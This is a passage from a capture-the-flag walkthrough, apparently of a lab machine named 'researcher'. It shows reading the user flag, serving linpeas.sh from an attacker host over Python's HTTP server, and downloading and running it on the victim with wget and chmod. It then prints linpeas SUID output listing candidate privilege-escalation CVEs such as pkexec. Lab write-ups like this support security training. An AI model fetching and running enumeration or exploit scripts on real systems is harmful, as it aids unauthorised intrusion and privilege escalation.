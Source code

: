 * Now here you can read the user flag
```
carlos@researcher:~$ ls
flag.txt
```
* Then for the privilege escalation we need to download the linpeas.sh.
* Then we will transfer the linpeas.sh file to the victim machine.
* In the attacker machine we start a Serer using the python
```
┌──(kali㉿kali)-[~/Tools]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
* In the victim machine we download the linpeas.sh
```code
carlos@researcher:~$ wget http://10.17.28.127/linpeas.sh
--2024-12-04 13:21:05--  http://10.17.28.127/linpeas.sh
Connecting to 10.17.28.127:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 827841 (808K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                      100%[====================================================================================================>] 808.44K   550KB/s    in 1.5s    

2024-12-04 13:21:07 (550 KB/s) - ‘linpeas.sh’ saved [827841/827841]

carlos@researcher:~$ 

```
* Now give the permission the the lipeas.sh file
```code
 chmod +x linpeas.sh
```
* Now run the lipeas.sh
* After running the linpeas.sh file. We found a suid binary 
```code
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                             
-rwsr-xr-- 1 root messagebus 42K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                    
-rwsr-xr-x 1 root root 128K May 29  2023 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 99K May  5  2023 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 14K Jan 12  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 427K Mar 30  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 37K Nov 29  2022 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 22K Jan 12  2022 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 146K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-sr-x 1 daemon daemon 51K Feb 20  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 75K Nov 29  2022 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 75K Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Nov 29  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 37K Nov 29  2022 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 40K Nov 29  2022 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 59K Nov 29  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44K Nov 29  2022 /bin/su
```